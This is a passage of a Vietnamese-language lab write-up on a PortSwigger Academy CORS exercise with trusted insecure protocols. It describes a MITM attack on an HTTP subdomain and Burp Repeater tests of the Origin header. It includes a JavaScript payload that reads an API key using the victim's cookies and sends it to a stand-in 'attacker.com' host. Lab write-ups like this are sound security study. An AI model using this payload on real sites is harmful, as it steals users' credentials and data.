   - Attacker (đang MITM) chặn request này và chèn vào một lệnh redirect sang: ```http://trusted-subdomain.vulnerable-website.com```

  - Trình duyệt victim truy cập subdomain này qua HTTP (không mã hoá).

  - Attacker tiếp tục MITM, giả mạo response từ subdomain đó, trong response chứa JavaScript chạy CORS:
 
    ```javascript
    fetch('https://vulnerable-website.com/api/requestApiKey', {
    credentials: 'include'
    })
    .then(r => r.text())
    .then(data => fetch('https://attacker.com/log?key=' + data));
    ```

  - Khi JS này chạy, trình duyệt gửi request cross-origin đến kèm cookie session thật của victim:

    ```url
    https://vulnerable-website.com/api/requestApiKey
    ```

  - Server hợp lệ (vì thấy Origin: _http://trusted-subdomain.vulnerable-website.com_ là nằm trong whitelist) nên trả về dữ liệu nhạy cảm (API key...) &rarr; ta đọc được.

### Lab: CORS vulnerability with trusted insecure protocols

- Tương tự các bài lab trước, sau khi đăng nhập thành công vào website, check Burp ta có thể thấy có AJAX request /accountDetails và response trả về có header ```Access-Control-Allow-Credentials```:

  <img width="1408" height="620" alt="Screenshot 2025-09-17 152703" src="https://github.com/user-attachments/assets/42669993-f764-48bb-b438-5be536ff46b6" />

  &rarr; có sử dụng cơ chế CORS.

- Chuyển request vào trong Burp Repeater.

- Thực hiện thử thêm header Origin sau đó nhập giá trị là thêm ```subdomain``` (hoặc bất kỳ từ tùy ý nào) ở trước domain chính hiện tại:

  ```http
  Origin: https://subdomain.0a1100390460657a80ed0381006200b6.web-security-academy.net
  ```

  <img width="1919" height="877" alt="image" src="https://github.com/user-attachments/assets/93f6f585-131d-410e-92d1-19249e5bc3b4" />

  Ta có thể thấy response trả về xuất hiện header ```Access-Control-Allow-Origin: https://subdomain.0a1100390460657a80ed0381006200b6.web-security-academy.net```, tức là subdomain    trên có trong whitelist của server website.

  Thử bỏ giao thức HTTPS và thay bằng HTTP thường, ta thấy response trả về vẫn được với header ```Access-Control-Allow-Origin```:

  <img width="1919" height="923" alt="image" src="https://github.com/user-attachments/assets/16204cc7-010a-4e4e-96d4-a8e677b44e02" />

  &rarr; Cấu hình CORS cho phép truy cập từ bất kỳ subdomain tùy ý của domain chính, kể cả HTTPS hay HTTP.

- Vấn đề bây giờ cần tìm một lỗ hổng XSS để có thể inject mã JS độc hại.
